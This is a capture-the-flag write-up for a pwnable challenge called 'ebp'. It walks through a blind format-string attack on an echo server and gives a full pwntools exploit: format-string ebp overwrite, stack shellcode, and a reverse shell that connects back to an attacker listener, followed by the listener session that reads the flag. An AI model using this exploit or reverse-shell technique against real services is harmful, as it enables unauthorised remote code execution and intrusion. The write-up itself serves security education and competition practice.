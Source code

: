 ### Solved by superkojiman and et0x

superkojiman here; this pwnable challenge was essentially an echo server. Anything we sent to it was sent right back to us. The code was really simple, and there was no NX on the binary which meant we could execute shellcode on the stack. et0x and I quickly found that it was vulnerable to a format string attack when snprintf() was called in the make_response() function:

```
# ./ebp_a96f7231ab81e1b0d7fe24d660def25a.elf 
AAAA.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
AAAA.b76bac1a.b77b9440.804a080.bf9e52f8.804852c.1.0.804a080.b77b8ff4.0.0.bf9e5318.8048557.804a080.400.b77b9440
```

However, we found that our format string wasn't on the stack. After doing a bit of searching online, I found an article on blind format string attacks [here](https://www.sec.in.tum.de/assets/Uploads/formatstring.pdf). It specifically talked about modifying ebp such that it ended up redirecting to a memory location of our choosing. Since the challenge was called ebp, I knew I was on the right track. 

Although our format string wasn't on the stack, ebp for make_response() and echo() were! make_response()'s ebp was at offset 4, and echo()'s was at offset 6. By modifying make_response()'s ebp, we could modify main()'s ebp as well so that when main() returned, it would return to our shellcode. A good place to store our shellcode was at buf, which had a static address of 0x0804a080. 

Within minutes et0x had figured out the correct number of bytes to write so that main()'s ebp would be overwritten with 0x0804a080. My initial payload looked like this:

```python
payload = ""
payload += "%134520975u%4$n"
payload +=  buf_addr
payload += "BBBB"
payload += "AAAA" 
payload += "jhh///sh/bin\x89\xe31\xc9j\x0bX\x99\xcd\x80"
```

Sending this payload caused main() to return to 0x42424242, so we successfully gained control of execution. I calculated the offset of the start of the shellcode in the payload and replaced "BBBB" with that address. Here's the final exploit: 

```python
#!/usr/bin/env python
from pwn import *

r = remote("52.6.64.173", 4545)

buf_addr = p32(0x0804a080)
sc_addr  = p32(0x0804A09b)

payload =  "" 
payload += "%134520975u%4$n"
payload += buf_addr
payload += sc_addr
payload += "AAAA"

payload += asm(shellcraft.linux.connect("x.x.x.x", 9898))
payload += asm(shellcraft.linux.dupsh())

print "+ sending payload"
r.send(payload + "\n")
print "+ got back:", r.recv()
```

It took a while for the exploit to work on the server, but when it finally did, I got a reverse shell to the server and was able to grab the flag: 

```text
root@vps123456:~# ncat -lvp 9898
Ncat: Version 6.00 ( http://nmap.org/ncat )
Ncat: Listening on :::9898
Ncat: Listening on 0.0.0.0:9898
Ncat: Connection from 52.6.64.173.
Ncat: Connection from 52.6.64.173:51340.
id
uid=1001(problem) gid=1001(problem) groups=1001(problem)
ls /home/problem
ebp
flag.txt
cat /home/problem/flag.txt
who_needs_stack_control_anyway?
```

The flag was **flag{who_needs_stack_control_anyway?}**
